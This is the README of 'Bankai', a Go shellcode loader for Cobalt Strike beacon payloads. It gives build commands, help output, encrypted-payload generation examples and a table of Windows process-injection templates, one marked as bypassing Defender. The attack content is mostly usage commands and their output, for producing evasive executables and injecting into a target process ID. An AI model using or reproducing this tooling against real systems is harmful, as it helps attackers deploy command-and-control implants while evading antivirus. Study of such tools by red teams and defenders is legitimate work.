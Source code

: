 <p align="center">
    <br>
        <img src=img/bankai.jpg >
    <br>
</p>

# Bankai
Another Go shellcode loader designed to work with Cobalt Strike raw payload. I created this project to mainly educate myself learning Go and directly executing shellcode into the target Windows system using various techniques. 

<b>Encryption</b> - I implemented a simple payload encryption process (IV --> AES --> XOR --> Base64) that I learned while studying [SLAE32](https://bigb0ss.medium.com/expdev-custom-go-crypter-fb8f9bac0fe8). This is mainly for protecting Cobalt Strike payload when it's moved over to the target host. The final payload will include a decrypt function within.

<b>Templates</b> - Templates are the skeleton scripts to generate a final payload per each technique. 

## Installation
```
git clone https://github.com/bigb0sss/bankai.git
GO111MODULE=off go build bankai.go
```

## Usage & Example
Generate a Cobalt Strike payload:

<p align="center">
    <br>
        <img src=img/cobalt.png>
    <br>
</p>

```
./bankai -h                       

     _                 _         _ 
    | |               | |       (_)
    | |__   __ _ _ __ | | ____ _ _ 
    | '_ \ / _' | '_ \| |/ / _' | |
    | |_) | (_| | | | |   < (_| | |
    |_.__/ \__,_|_| |_|_|\_\__,_|_|
                        [bigb0ss]

    [INFO] Another Go Shellcode Loader

 
    Required:
    -i            Binary File (e.g., beacon.bin)
    -o            Payload Output (e.g, payload.exe)
    -t            Payload Template (e.g., win32_VirtualProtect.tmpl)
    -a            Arch (32|64)
    
    Optional:
    -h            Print this help menu
    -p            PID

    Templates:                                        Last update: 06/07/21
    +--------------------------------------+-----------+------------------+
    | Techniques                           | PID       | Bypass Defender  |
    +--------------------------------------+-----------+------------------+
    | win32_VirtualProtect.tmpl            |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateFiber.tmpl               |           |        No        |
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThreadNative.tmpl  | Required  |        Yes       | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThread.tmpl              |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EtwpCreateEtwThread.tmpl       |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_Syscall.tmpl                   |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadpoolWait.tmpl      |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumerateLoadedModules.tmpl    |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_EnumChildWindows.tmpl          |           |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateRemoteThread.tmpl        | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_RtlCreateUserThread.tmpl       | Required  |        No        | 
    +--------------------------------------+-----------+------------------+
    | win64_CreateThreadNative.tmpl        |           |        No        | 
    +--------------------------------------+-----------+------------------+

    Example:

    ./bankai -i beacon.bin -o payload.exe -t win64_CreateThread.tmpl -a 64
    [INFO] Key: SymE9GQBtyHL4IAq5Pm6r3b8I7PJB9l0
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateThread.tmpl
    [INFO] InputFile: beacon.bin
    [INFO] OutputFile: payload.exe

    ./bankai -i beacon64.bin -o payload.exe -t win64_CreateRemoteThread.tmpl -a 64 -p 7720
    [INFO] Key: 3mOL2Ne5XIW4xCieiR7cPmHtw4o737Do
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateRemoteThread.tmpl
    [INFO] InputFile: beacon64.bin
    [INFO] OutputFile: payload.exe
```

## Credits / Acknowledgments / References
All of the work is inspired and done by the following researchers/projects:
* [go-shellcode](https://github.com/brimstone/go-shellcode) by brimstone
* [go-shellcode](https://github.com/Ne0nd0g/go-shellcode) by Ne0nd0g
* [GoPurple](https://github.com/sh4hin/GoPurple) by sh4hin
* Go Template - https://dev.to/kirklewis/go-text-template-processing-181d

## Todo
* Add more shellcode injection technique templates
* Add [AlternativeShellcodeExec](https://github.com/S4R1N/AlternativeShellcodeExec) techniques that Ali and Alfaro found
* Test these shellcodes with modified malleableC2 profiles 

### Change Log
##### 06/02/21
* Added `win64_CreateThreadpoolWait.tmpl`
* Added `win64_EnumerateLoadedModules.tmpl`
* Added `win64_EnumChildWindows.tmpl`
* Updated some error handling

##### 06/07/21
* Added `win64_EnumPageFilesW.tmpl`
* Added `win64_CreateRemoteThread.tmpl`
* Added `win64_RtlCreateUserThread.tmpl`
* Added `win64_CreateThreadNative.tmpl`

